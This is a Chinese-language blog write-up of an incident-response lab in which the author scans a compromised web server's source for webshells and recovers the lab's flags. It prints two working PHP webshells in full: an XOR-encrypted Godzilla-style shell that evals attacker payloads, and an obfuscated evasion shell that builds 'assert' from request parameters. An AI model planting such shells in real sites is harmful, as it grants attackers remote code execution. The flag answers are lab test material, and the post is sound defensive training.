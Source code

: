# 第一章 应急响应Webshell查杀

  
  
&lt;!--more--&gt;  
任务要求  
	1.黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}  
	2.黑客使用的什么工具的shell github地址的md5 flag{md5}  
	3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx  
	4.黑客免杀马完整路径 md5 flag{md5}  
连上靶机之后，利用`tar`命令，压缩网站源码  
`tar -zcvf html.tar.gz /var/www/html`  
在线查杀网站进行查杀  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401312145880.png)  
在`/var/www/html/include/gz.php`文件下，发现第一个`flag`  
```bash  
root@ip-10-0-10-3:/var/www/html# cat /var/www/html/include/gz.php  
&lt;?php  
@session_start();  
@set_time_limit(0);  
@error_reporting(0);  
function encode($D,$K){  
    for($i=0;$i&lt;strlen($D);$i&#43;&#43;) {  
        $c = $K[$i&#43;1&amp;15];  
        $D[$i] = $D[$i]^$c;  
    }  
    return $D;  
}  
//027ccd04-5065-48b6-a32d-77c704a5e26d  
$payloadName=&#39;payload&#39;;  
$key=&#39;3c6e0b8a9c15224a&#39;;  
$data=file_get_contents(&#34;php://input&#34;);  
if ($data!==false){  
    $data=encode($data,$key);  
    if (isset($_SESSION[$payloadName])){  
        $payload=encode($_SESSION[$payloadName],$key);  
        if (strpos($payload,&#34;getBasicsInfo&#34;)===false){  
            $payload=encode($payload,$key);  
        }  
                eval($payload);  
        echo encode(@run($data),$key);  
    }else{  
        if (strpos($data,&#34;getBasicsInfo&#34;)!==false){  
            $_SESSION[$payloadName]=encode($data,$key);  
        }  
    }  
}  
  
```  
`flag{027ccd04-5065-48b6-a32d-77c704a5e26d}`  
很明显是一个冰蝎马，找到 github地址进行提交  
```bash  
f10wers13eicheng@MacBookPro [21时41分00秒] [~/Desktop]   
-&gt; % md5 -s &#39;https://github.com/BeichenDream/Godzilla&#39;  
MD5 (&#34;https://github.com/BeichenDream/Godzilla&#34;) = 39392de3218c333f794befef07ac9257  
```  
`flag{39392de3218c333f794befef07ac9257}`  
第三个 flag 是隐藏shell文件的路径`/var/www/html/include/Db/.Mysqli.php`  
```bash  
f10wers13eicheng@MacBookPro [21时39分52秒] [~/Desktop]   
-&gt; % md5 -s &#39;/var/www/html/include/Db/.Mysqli.php&#39;    
MD5 (&#34;/var/www/html/include/Db/.Mysqli.php&#34;) = aebac0e58cd6c5fad1695ee4d1ac1919  
```  
第四个 flag 为免杀马的路径，在河马查杀里边可以注意到一个特殊的  
`机器学习检测为webshell`，进行查看  
```bash  
root@ip-10-0-10-3:/var/www/html# cat /var/www/html/wap/top.php  
&lt;?php  
  
$key = &#34;password&#34;;  
  
//ERsDHgEUC1hI  
$fun = base64_decode($_GET[&#39;func&#39;]);  
for($i=0;$i&lt;strlen($fun);$i&#43;&#43;){  
    $fun[$i] = $fun[$i]^$key[$i&#43;1&amp;7];  
}  
$a = &#34;a&#34;;  
$s = &#34;s&#34;;  
$c=$a.$s.$_GET[&#34;func2&#34;];  
$c($fun);  
```  
确实是免杀马  
```bash  
f10wers13eicheng@MacBookPro [21时39分59秒] [~/Desktop]   
-&gt; % md5 -s &#39;/var/www/html/wap/top.php&#39;             
MD5 (&#34;/var/www/html/wap/top.php&#34;) = eeff2eabfd9b7a6d26fc1a53d3f7d1de  
```  
`flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/  

